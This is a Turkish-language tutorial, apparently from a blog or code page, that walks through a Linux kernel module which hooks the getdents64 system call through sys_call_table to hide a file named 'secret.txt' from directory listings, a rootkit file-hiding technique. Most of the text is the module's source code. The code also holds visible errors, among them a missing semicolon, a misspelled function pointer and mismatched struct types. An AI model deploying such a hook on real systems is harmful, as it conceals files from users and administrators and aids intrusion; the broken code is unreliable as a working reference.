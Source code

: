 Öncelikle her zamanki gibi kütüphanelerimizi ekleyerek başlayalım :)

    #include <linux/module.h>
    #include <linux/init.h>
    #include <linux/kernel.h>
    #include <linux/moduleparam.h>
    #include <linux/unistd.h>
    #include <linux/semaphore.h>
    #include <linux/dirent.h>
    #include <asm/cacheflush.h>

Şimdi de geliştireceğimiz modül hakkında bazı bilgiler girelim.

    MODULE_AUTHOR("Alp Eren");
    MODULE_DESCRIPTION("Hide a file getdents syscalls");
    MODULE_LICENSE("GPL")

`sys_call_table`

    void **sys_call_table;

Şimdi de saklamak istediğimiz dosyayı belirtelim.

    #define FILE_NAME "secret.txt"

Orjinal getdents64 sistem çağrısı :

    asmlinkage int (*originial_getdents64) (unsigned int fd, struct linux_dirent64 *dirp, unsigned int count);

Şimdi de bu orjinal getdents64 sistem çağrısı yerine geçecek Hookumuzu yazalım. Burada asıl amacımız `linux_dirent64` üzerinde bir döngü oluşturup daha sonra her bir dosya ismini arayıp , belirttiğimiz gizlenilecek dosya ile aynı ismi taşıyan dosya varsa bunu ls komutunda göstermemesini sağlamak.

    asmlinkage int sys_getdents64_hook(unsigned int fd, struct linux_dirent64 *dirp, unsigned int count) {
    	int rtn;
    	struct linux_dirent64 *cur = dirp;
    	int i = 0;
    	rtn = original_getdents64(fd, dirp, count);
    	while (i < rtn) {
    		if (strncmp(cur->d_name, FILE_NAME, strlen(FILE_NAME)) == 0) {
    			int reclen = cur->d_reclen;
    			char *next_rec = (char *)cur + reclen;
    			int len = (int)dirp + rtn - (int)next_rec;
    			memmove(cur, next_rec, len);
    			rtn -= reclen;
    			continue;

    		}
    		i += cur->d_reclen;
    		cur = (struct linux_dirent*) ((char*)dirp + i);
    	}

    	return rtn;
    }

